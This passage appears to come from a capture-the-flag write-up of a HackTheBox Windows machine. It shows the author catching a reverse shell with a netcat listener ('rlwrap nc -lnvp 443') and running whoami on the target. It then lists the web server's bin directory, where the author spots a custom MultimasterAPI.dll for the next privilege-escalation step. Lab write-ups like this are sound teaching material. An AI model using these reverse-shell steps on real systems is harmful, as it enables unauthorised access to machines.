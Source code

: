 And get a shell:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:50159.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files\Microsoft VS Code>whoami
megacorp\cyork

```

This was super finicky. It just didn’t work sometimes. But eventually it did.

## Priv: cyork –> sbauer

### Enumeration

cyork does have access to the web directory. I missed it the first time I was there, but eventually I noticed a very custom dll in `\inetpub\wwwroot\bin\`:

```

C:\inetpub\wwwroot\bin>dir
 Volume in drive C has no label.
 Volume Serial Number is 5E12-F84E                                                                                
                                                         
 Directory of C:\inetpub\wwwroot\bin
                                                         
01/07/2020  10:28 PM    <DIR>          .
01/07/2020  10:28 PM    <DIR>          ..
02/21/2013  08:13 PM           102,912 Antlr3.Runtime.dll 
02/21/2013  08:13 PM           431,616 Antlr3.Runtime.pdb 
05/24/2018  01:08 AM            40,080 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
07/24/2012  11:18 PM            45,416 Microsoft.Web.Infrastructure.dll
01/09/2020  05:13 AM            13,824 MultimasterAPI.dll
01/09/2020  05:13 AM            28,160 MultimasterAPI.pdb 
02/17/2018  09:14 PM           664,576 Newtonsoft.Json.dll
01/07/2020  10:28 PM    <DIR>          roslyn
11/28/2018  12:30 AM           178,808 System.Net.Http.Formatting.dll
11/28/2018  12:28 AM            27,768 System.Web.Cors.dll
01/27/2015  03:34 PM           139,976 System.Web.Helpers.dll
11/28/2018  12:31 AM            39,352 System.Web.Http.Cors.dll
11/28/2018  12:31 AM           455,096 System.Web.Http.dll
01/31/2018  11:49 PM            77,520 System.Web.Http.WebHost.dll
01/27/2015  03:32 PM           566,472 System.Web.Mvc.dll 
02/11/2014  02:56 AM            70,864 System.Web.Optimization.dll
01/27/2015  03:32 PM           272,072 System.Web.Razor.dll
01/27/2015  03:34 PM            41,672 System.Web.WebPages.Deployment.dll
01/27/2015  03:34 PM           211,656 System.Web.WebPages.dll
01/27/2015  03:34 PM            39,624 System.Web.WebPages.Razor.dll
07/17/2013  04:33 AM         1,276,568 WebGrease.dll
              20 File(s)      4,724,032 bytes
               3 Dir(s)  19,370,094,592 bytes free

```
